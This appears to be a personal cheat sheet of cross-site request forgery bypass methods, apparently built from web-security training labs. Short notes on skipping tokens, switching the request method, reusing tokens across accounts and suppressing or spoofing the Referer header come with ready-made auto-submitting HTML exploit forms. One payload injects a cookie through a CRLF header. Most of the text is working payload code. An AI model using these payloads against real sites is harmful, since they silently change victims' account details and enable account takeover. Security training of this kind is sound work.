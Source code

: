 ### CSRF bybass methods
- NO csrf token
- weak csrf token
- check content type
- check referer header
- chnage POST to GET or GET to post

### CSRF token bybass methods
- reomving ANI-csrf token
- NO check for the users token
- weak token
- Reasuable token
- change request method
- Guessable token
- Bybass referer

### method attacks
- remove referer header and send request and check response
- remove original header and send request and check response
- remove csrf  token and send request and check response



### Basic method no defenses
- the request
```
POST /myaccount/changeemail
HOST:


email=....
```

- the exploit
```html
<form action="" method="POST">
<input type="hidden" name="email" value="">
</form>
<script>
 document.forms[0].submit();
</script>

```
### CSRF where token validation depends on token being present
- the request
```
POST /myaccount/changeemail
HOST:


email=....&csrftoken=.....
```
- TIPS: reomve the csrf token
-THE exploit

```html
<form action="" method="POST">
<input type="hidden" name="email" value="">
</form>
<script>
 document.forms[0].submit();
</script>
```

### CSRF where token validation depends on request method
- the request
```
POST /myaccount/changeemail
HOST:


email=....&csrftoken=.....
```
- TIPS: reomve the csrf token
- Tips: change request TO GET in CSRF payloads
-THE exploit

```html
<form action="" method="GET">
<input type="hidden" name="email" value="">
</form>
<script>
 document.forms[0].submit();
</script>
```

### CSRF where token is not tied to user session
- steps                                                                                                                                                                     
1- create two accounts                                                                                                                                                                     
2- go to the first account and change email we will change                                                                                                                                                                     
3- go to second account and try intersept change email then drop request , copy the csrf token                                                                                                                                                                     
4- go to the first account and put csrf token(second account) and try change email is valid or not


### csrf bypass via method override
```
<html>
<body>
   <script>history.pushState(' ', ' ' ,'/')</script>
   <form action="" method="GET">
   <input type="hidden" name="_method" value="POST">
   <input type="hidden" name="email" value="">
   </form>
   <script>
   document.forms[0].submit();
   </script>
</body>
</html>
```
### CSRF where token is duplicated in cookie
```html
<html>
<body>
   <script>history.pushState(' ',' ','/')</script>
   <form action="https://0a6a006c04de5fc7829147ec00750057.web-security-academy.net/my-account/change-email" method="POST"/>
   <input type="hidden" name="email" value="a@gmail.com"/>
   <input type="hidden" name="csrf" value="fake"/>
   <input type="submit" value="submit request"/>
   </form>
   <img src="https://0a6a006c04de5fc7829147ec00750057.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
   </body>
</html>
```
### CSRF where Referer validation depends on header being present
```html
<html>
<head>
   <meta name="referrer" content="no-referrer" >
</head>
<body>
   <script>history.pushState(' ', ' ' ,'/')</script>
   <form action="https://0a390078039fe0a780e435a600ca0059.web-security-academy.net/my-account/change-email" method="POST">
   <input type="hidden" name="email" value="a@gmail.com">
   <input type="submit" value="submit" >
   </form>
   <script>
   document.forms[0].submit();
   </script>
</body>
</html>
```

### CSRF with broken Referer validation
```html
<html>
<body>
   <script>history.pushState(' ', ' ' ,'/?0ad4003504bb812580aae57c00c40072.web-security-academy.net')</script>
   <form action="https://0ad4003504bb812580aae57c00c40072.web-security-academy.net/my-account/change-email" method="POST">
   <input type="hidden" name="email" value="a@gmail.com">
   <input type="submit" value="submit" >
   </form>
   <script>
   document.forms[0].submit();
   </script>
</body>
</html>
```
